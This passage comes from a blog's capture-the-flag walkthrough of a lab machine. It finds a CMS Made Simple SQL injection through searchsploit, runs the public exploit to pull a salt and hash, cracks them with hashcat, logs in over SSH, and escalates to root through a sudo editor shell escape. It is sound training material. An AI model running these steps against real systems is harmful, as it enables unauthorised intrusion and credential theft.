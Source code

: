 ```
[18:10:34] 200 -  929B  - /robots.txt                                       
[18:10:35] 403 -  301B  - /server-status                                    
[18:10:35] 403 -  302B  - /server-status/                                   
**[18:10:37] 301 -  315B  - /simple  ->  <http://10.10.138.218/simple/**>         
                                                                             
Task Completed

```
```

Find CVE: `searchsploit ‘CMS Made Simple’`

```
<pre class="wp-block-code">```
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/*****.py

```
```

Find local CVE file: `locate 'php/webapps/*****.py'`

```
<pre class="wp-block-code">```
/usr/share/exploitdb/exploits/php/webapps/*****.py

```
```

[🔗 CVE](https://www.exploit-db.com/exploits/46635)

Using CVE:

- Ran `sudo apt install 2to3` – exploit written in `python2` has missing modules.
- `2to3 *****.py`, `python *****.py -u http://<ip>/simple` Note, tried multiple times and then randomly worked… didn’t change anything, ghost in shell moment.
- Also, took two attempts to get correct salt and hash, third attempt again produced different set.

```
<pre class="wp-block-code">```
[+] Salt for password found: *****
[+] Username found: *****
[+] Email found: *****
[+] Password found: *****

```
```

Crack Password: `hashcat -O -a 0 -m 20 '<salt>:<hash>' <wordlist>.txt --show`

- Note, salt first, then hashed password, used hint for wordlist.

Connect: `ssh *****@<ip> -p 2222`

PrivEsc: `sudo -*`

```
<pre class="wp-block-code">```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/*******

```
```

Escalate shell: `sudo ***`, `:!bash`, `cat /root/root.txt`

Thanks for reading and I hope you learned something from this little exercise. This is day 52 of [\#100DaysOfHacking](https://mrashleyball.com/100daysofhacking/) on the [Hackers Learning Path](https://mrashleyball.com/learning-path-for-beginner-hacker/). [Subscribe](https://go.mrash.co/newsletter) for [CyberSec](https://mrashleyball.com/starting-out-in-cyber-security/) updates or [read](https://mrashleyball.com/blog) more, happy hacking.